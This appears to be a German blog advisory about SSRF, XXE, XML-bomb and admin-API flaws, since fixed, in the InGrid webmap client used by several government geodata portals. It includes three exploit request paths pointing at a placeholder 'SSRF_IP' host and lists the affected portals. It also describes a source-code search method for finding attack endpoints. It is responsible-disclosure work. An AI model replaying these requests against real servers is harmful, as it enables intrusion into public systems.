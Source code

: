 ```yaml
---
layout: post
title:  "Mehrere Schwachstellen (SSRF, XXE, XML Bombe, Admin API Zugriff, etc.) im InGrid Framework (ingrid-webmap-client) geschlossen"
date:   2021-11-30 22:30:00 MET
author: 'psytester'
---
```


Verschiedene Bundesländer- und Bundesportale für (Geo-)Metadaten enthielten einige Schwachstellen im InGrid Framework, die nun gefixt wurden:
- Drei Möglichkeiten einer XXE via SSRF
```
/ingrid-webmap-client/rest/wms/proxy/?url=https://SSRF_IP/xxe.xml
/ingrid-webmap-client/rest/wms/proxy/layers?url=http://SSRF_IP/xxe_layers.xml
/ingrid-webmap-client/rest/search/query?type=services&q=dummy&searchUrl=https://SSRF_IP/xxe_rss_channel_item.xml
```
- XML Bombe via SSRF
- SSRF auf interne Systeme. Zumindest meine Testdatei wird nun nicht mehr ausgegeben, da sie eventuell nicht der erwarteten Struktur entspricht.
- Schreibender Admin Zugriff auf Daten, die unter anderem eine persistente XSS ermöglichen können
- Tomcat Version Disclosure Schwachstelle & Veralteter Tomcat Softwarestand

Details zum hier angesprochenen und zugrunde liegenden InGrid Framework findet man auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu) und der Source Code liegt auf [Github](https://github.com/informationgrid/ingrid-webmap-client)<br>
Es gibt mind. 6 Bundes und Bundesländer Portale, die diese Software einsetzen. Mit der [Google-Suche inurl:ingrid-webmap-client](https://www.google.de/search?q=inurl:ingrid-webmap-client&filter=0) findet man diese 6 Portale:<br>
https://fs.nlphh.de<br>
https://ingrid.s-h.nokis.org<br>
https://metaver.de<br>
https://numis.niedersachsen.de<br>
https://portalu.rlp.de<br>
https://www.kuestendaten.de<br>

Die Kommunikation mit dem verantwortlichen Hersteller und dessen Reaktionsgeschwindigkeit war sehr gut und professionell. Schneller konnte man die Schwachstellen nicht schließen.

# Details

- Betreiber: Verwaltungskooperation Umweltinformationssysteme (VKoopUIS) Projekt Nr. 50: InGrid - Pflege und Weiterentwicklung der InGrid-Softwarekomponenten zum Betrieb von Internetportalen und Metadatenkatalogen
- Beschreibung der InGrid Framework als Power Point Folien vom ITZBund [InGrid-Praesentation-ITZBund_final.ppsx](https://redmine.gdi-de.org/dmsf/files/405/view)
- Korrigierte Versionen: 5.8.6 / 5.9.2 / 5.10.0
- Referenz ChangeLog [5.8.6](https://www.ingrid-oss.eu/5.8.0/about/history.html#version-586) / [5.9.2](https://www.ingrid-oss.eu/5.9.0/about/history.html#version-592) / [5.10.0](https://www.ingrid-oss.eu/latest/about/history.html#liste-der-%C3%A4nderungen)
  - [Feature] [PORTAL] Aktualisierung TOMCAT Version (REDMINE-2926)
  - [Feature] [PORTAL] Verstecken der Tomcat Version in Tomcat Fehlerseiten. (REDMINE-2925)
  - [Bug] [PORTAL] SSRF mit XML External Entity (XXE) Schwachstelle im MapClient beheben (REDMINE-2924)
- Final korrigierte Versionen: 5.8.7/ 5.9.1.2 / 5.9.2.1 / 5.10.0.1 / 5.10.1
- Referenz ChangeLog [5.8.7](https://www.ingrid-oss.eu/5.8.0/about/history.html#version-587) / [5.9.1.2 & 5.9.2.1](https://www.ingrid-oss.eu/5.9.0/about/history.html#version-5921) / [5.10.0.1 & 5.10.1](https://www.ingrid-oss.eu/latest/about/history.html#liste-der-%C3%A4nderungen)
  - [Bug] [Portal] SSRF mit XML External Entity (XXE) Schwachstelle (2) (REDMINE-3161)

# HowTo vulnerability hunting?

Die Frage lautet wie so oft "Wie findet man eigentlich mögliche Schwachstellen?"<br>
In diesem Fall half eine Suche im Sourcecode nach Strings wie "@Path(" und den HTTP Methoden als "@GET"/"@POST"/"@PATCH"/"@PUT"/"@DELETE", den "@QueryParam(", einer "URLConnection" und zu guter Letzt für die XXE nach "XPathFactory".<br>
- Die @Path Treffer in Verbindung mit den HTTP Methoden helfen mir, die möglichen Endpoints zu identifizieren. Hier waren "/admin" Endpoints dabei, die tatsächlich auch schreibenden Zugriff ermöglichten mit "@POST"/"@PATCH"/"@PUT"/"@DELETE".<br>
- Die @QueryParam geben die möglichen Übergabeparameter bei GET Operationen an. Hier waren die Query Parameter "url=meineurl" und "type=services" jeweils Treffer zum Ausnutzen einer SSRF.<br>
- Ein "XPathFactory" deutet auf das Verarbeiten von XML Dokumenten hin. Die betroffenen Java Klassen haben dann gezeigt, welche XML Trees vorliegen müssen, damit sie überhaupt verarbeitet werden.<br>
- Der String "URLConnection" führte zur Klasse HttpProxy mit seinem Aufruf "URLConnection conn = url.openConnection();", wobei diese Komponente die Verbindung als Client aufbaut. Die SSRF Möglichkeit ist gefunden.

# Timeline

2021-10-01 01:00 Uhr Report an metaver.de und das CERT-Bund (Es ist Freitag "Morgen")<br>
2021-10-04 Sourcen des InGrid-webmap-client analysieren und einen eigenen Client compilieren für lokale Tests<br>
2021-10-05 E-Mail mit neuen Details an hinterlegte E-Mail Adresse auf [https://www.ingrid-oss.eu](https://www.ingrid-oss.eu)<br>
2021-10-05 Rückmeldung bekommen über erste kurzfristige Korrekturen schon am Freitag<br>
2021-10-06 Retest des Fix im develop-Branch / Report neuer Details<br>
2021-10-07 Alle bisher gemeldeten Probleme wurden in einem Nachtest final als gelöst bestätigt<br>
2021-10-27 Erste Veröffentlichung dieses Artikels über die gefixten Schwachstellen<br>
2021-11-09 Beim Review zur Erweiterung des Artikels eine weitere XXE Schwachstelle gefunden und gemeldet<br>
2021-11-11 letzte XXE Schwachstelle als offizielle Update Version verfügbar<br>
2021-11-30 Update dieses Artikels über die gefixten Schwachstellen, inkl. wie ich diese Lücken gefunden habe<br>

# TL;DR
Ziellos im Internet unterwegs gewesen, die vielen APIs vom Bundesministerium [bundDEV](https://bund.dev) entdeckt.<br>
Als Endanwender finde ich das Super Klasse all die APIs zu haben.<br>
Die Orte der E-Ladestationen entlang der Autobahnen oder das deutschlandweite Ladesäulenregister als Karte der Bundesnetzagentur sind noch nicht allen bekannt.<br>
Bei mir um die Ecke gibt's also 3 Ladesäulen, die kennt nicht mal Google....<br>
Die Interpol Fahndungsliste angesehen, rumgespielt, Fehlermeldung bekommen mit der Erkenntnis, das eine MongoDB angebunden ist: `{"name":"MongoError","message":"Regular expression cannot contain an embedded null byte"}`. Alle Datensätze (Stand heute 7684) bekommt man also, wie auch auf der [Interpol Seite direkt angeboten](https://www.interpol.int/How-we-work/Notices/View-Red-Notices) über diese Query-Abfrage: /notices/v1/red?name=.*<br>

Über das Bundesministerium [bundDEV](https://bund.dev) bin ich dann über das [Issue 41](https://github.com/bundesAPI/sofortmassnahmen/issues/41) der Sofortmaßnahmen auf den MetaDaten Portal Verbund [MetaVer.de](https://metaver.de) der Bundesländer Brandenburg, Bremen, Hamburg, Mecklenburg-Vorpommern, Saarland, Sachsen & Sachsen-Anhalt gestoßen. Beim Ansehen des Portals nur zufällig und ohne Absicht einen Aufruf gesehen, der interessant aussah ;-)<br>
Challenge Accepted...

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2021 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
